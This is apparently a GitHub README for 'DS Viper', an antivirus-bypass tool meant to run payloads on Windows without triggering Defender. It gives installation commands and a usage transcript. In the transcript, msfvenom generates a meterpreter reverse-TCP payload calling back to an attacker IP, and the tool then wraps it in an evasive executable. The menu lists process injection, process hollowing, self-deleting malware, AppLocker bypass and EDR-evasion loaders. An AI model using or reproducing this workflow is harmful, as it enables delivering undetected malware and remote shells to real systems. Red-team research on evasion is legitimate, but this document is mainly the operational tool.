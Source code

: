 # 🐍 **About DS Viper**

**DS Viper** is a powerful tool designed to **bypass Windows Defender's security mechanisms**, enabling seamless execution of payloads on Windows systems without triggering security alerts. It utilizes a combination of **advanced techniques** to manipulate and disguise payloads, providing cybersecurity professionals, red teamers, and penetration testers with a **robust solution** for achieving undetected access.

Whether you're simulating real-world attacks or conducting comprehensive security audits, **DS Viper** serves as an essential tool for testing and improving system defenses.

> **We are constantly working on DS Viper** to enhance its capabilities, improve evasion techniques, and introduce customizable features such as the ability to add your own payloads or keywords.

---

<p align="center">
  <img src="https://github.com/dagowda/DSViper/blob/c24161c9c055bd94be03624cf8d1c8d9849df59c/img/screenshot1.jpg" alt="image_alt">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Option 1: Manual Installation**
```bash
git clone https://github.com/dagowda/DSViper.git
cd DSViper
pip install -r requirements.txt
sudo apt-get update
sudo apt-get install -y mingw-w64
sudo apt install mono-complete
chmod +x MASM-compatible/uasm
sudo cp MASM-compatible/uasm /usr/bin/uasm
```

### **Option 2: Scripted Installation (Recommended)**
If you prefer an automated setup, use the provided script:

```bash
chmod +x install_dependencies.sh
./install_dependencies.sh
```

---

# ⚙️ **Usage**

Make the `DSViper` executable and run it:

```bash
➜  DSViper git:(main) ✗ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.130.175 LPORT=443 -f raw > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201798 bytes
➜  DSViper git:(main) ✗ python3 DSViper.py

            
                                                                                                                                                                     
░▒▓███████▓▒░ ░▒▓███████▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓███████▓▒░░▒▓████████▓▒░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░             ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░              ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░░▒▓██████▓▒░        ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓██████▓▒░ ░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓███████▓▒░░▒▓███████▓▒░          ░▒▓██▓▒░  ░▒▓█▓▒░▒▓█▓▒░      ░▒▓████████▓▒░▒▓█▓▒░░▒▓█▓▒░                                                                         
                                                                                                                                                                     
................................................                                                                                                                     
                      AntiVirus Bypass Tool (v.0.2.1)                                                                                                                
---------------------------------------------------------                                                                                                            
Created by Dhanush Gowda(dagowda) and Sumanth Vanki                                                                                                                  
---------------------------------------------------------                                                                                                            
................................................                                                                                                                     
                                                                                                                                                                     
                                                                                                                                                                     
You sure you want to Continue?(Use it ethically, and in lab enviroments only) y/n: y                                                                                 
Enter your payload choice:                                                                                                                                           
1.)self-injection(XOR)                                                                                                                                               
2.)self-injection(AES)                                                                                                                                               
3.)Process Injection(spoolsv)(Can be used for lateral movement)                                                                                                      
4.)Process Hollow                                                                                                                                                    
5.)Self Deleting Malware(HAVE TO WAIT, CLOSE TO A MINUTE FOR THE PAYLOAD TO EXECUTE)                                                                                 
6.)DLL side-load/rundll32 applocker bypass                                                                                                                           
7.)Process Injection(explorer.exe)                                                                                                                                   
8.)Powershell(Will bypass with cloud detections enabled as well)(Make sure to run this payload twice)(use x64 payload only)                                          
9.)Applocker bypass small shellcodes(Make sure to use x86 payloads)(Also make sure to change the .exe file name after everyrun on the same victim)(Make sure you run this payload twice)                                                                                                                                                  
10.)Applocker bypass Havoc/large shellcodes(use x86 payloads only)                                                                                                   
11.)Indirect Syscall(Windows 10)(Possible EDR bypass loader)                                                                                                         
>2                                                                                                                                                                   
Please type in the shellcode file name: payload.bin                                                                                                                  
Selected self-injection(AES)                                                                                                                                         
[*]Payload successfully created as DSViper_AES.exe
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/DSViper/blob/c9bc60a60bc73fb523a935b8d188fbec5b1521fa/img/screenshot2.png) 
  
